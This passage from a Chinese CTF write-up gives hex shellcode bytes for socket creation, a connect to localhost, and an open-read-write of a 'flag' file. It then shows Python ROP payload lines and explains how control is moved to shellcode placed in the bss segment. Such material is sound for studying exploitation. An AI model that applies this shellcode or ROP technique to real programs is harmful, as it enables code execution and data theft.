 把上述shellcode全部转成机器码如下：

```assembly
socket="\x60\x11\x60\x00\x00\x00\x00\x00\x6A\x02\x5F\x6A\x01\x5E\x6A\x00\x5A\x6A\x29\x58\x0F\x05"

connect="\x6A\x00\x5F\x48\xB9\x02\x00\x03\xE8\x7F\x00\x00\x01\x51\x48\x89\xE6\x6A\x10\x5A\x6A\x2A\x58\x0F\x05"

orw="\x68\x66\x6C\x61\x67\x48\x89\xE7\x6A\x00\x5E\x6A\x02\x58\x0F\x05\x6A\x01\x5F\x48\xC7\xC6\x00\x15\x60\x00\x6A\x50\x5A\x6A\x00\x58\x0F\x05\x6A\x00\x5F\x48\xC7\xC6\x00\x15\x60\x00\x6A\x50\x5A\x6A\x01\x58\x0F\x05"
```

最后的payload执行下rep指令再布置下shellcode

```python
payload+=p64(pop_rdi_addr)+p64(bss_addr+0x50)#把shellcode布置到bss_addr加0x50的地方
payload+=p64(bss_addr+0x8)#把rsp的值给rsi，也就是说rsi值为下面这个bss_addr所对应的栈地址
payload+=p64(bss_addr)#执行rep指令，至此拷贝开始
```

最后再回答一下当时问的怎么将执行流劫持到bss段上。

通过调试发现，拷贝的时候只有rsi和rdi在移动，而rsp始终没有变，因此我只需要在发送shellcode之前放一个bss段地址（这个地址要执行shellcode的首地址），在payload的最后加上一个ret即可完成劫持执行流。

